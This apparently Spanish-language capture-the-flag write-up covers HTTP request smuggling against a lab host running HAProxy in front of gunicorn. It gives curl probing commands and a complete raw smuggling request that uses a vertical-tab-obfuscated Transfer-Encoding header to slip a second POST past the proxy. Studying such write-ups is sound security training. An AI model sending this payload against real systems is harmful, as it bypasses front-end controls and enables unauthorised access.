 Lanzamos Burpsuite para ver como se transmitten las peticiones. Pero no vemos nada interesantes aqui.





## Vulnerability Assessment {-}

### HTTP Request Smuggling {-}

Como no hemos encontrado nada analyzando la web manualmente, analyzamos las cabezeras con curl

```bash
curl -X GET -I http://10.10.10.225:5000/home
curl -X GET -I http://10.10.10.225:5000/home -L
```

Aqui vemos que estamos frente a un gunicorn que pasa 
```bash
 haproxy 
```
. Miramos por google que es y si existen vulnerabilidades. Encontramos una vulnerabilidad
liada a 
```bash
 haproxy 
```
 que es un **HTTP Request Smuggling**. Esta vulnerabilidad esta bien contemplada en la web de [portswigger](https://portswigger.net/web-security/request-smuggling).
Esta vulnerabilidad basicamente permitte enviar 2 peticiones al mismo tiempo y permitteria burlar las seguridades con esta segunda peticion.
En el caso de 
```bash
 haproxy 
```
 podemos ver esta vulnerabilidad en la pagina de [nathanvison](https://nathandavison.com/blog/haproxy-http-request-smuggling).

Para explotar esta vulnerabilidad vamos a utilizar el Burpsuite.

```bash
POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencode
Content-Length: 10
Cookie: lang=es-ES; i_like_gitea=604fd0a0f47a3b62; _csrf=4/PDrYQpzOFpi6ZlhMOToLe6YnY6MTYzMTk5NTE4zUONzY2NzY2Mg;
 redirect_to=&2Froot; session=eyJlbWFpbCI6InMOdmlOyXJaczR2aXRhci5jb20ifQ.YU2HdQ.qlIPX6awl0v1C8A8UXGUHfLXFJo
Transfer-Encoding:[\x0b]chunked

0

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencode
Content-Length: 10
Cookie: lang=es-ES; i_like_gitea=604fd0a0f47a3b62; _csrf=4/PDrYQpzOFpi6ZlhMOToLe6YnY6MTYzMTk5NTE4zUONzY2NzY2Mg;
 redirect_to=&2Froot; session=eyJlbWFpbCI6InMOdmlOyXJaczR2aXRhci5jb20ifQ.YU2HdQ.qlIPX6awl0v1C8A8UXGUHfLXFJo

msg=Adios


```
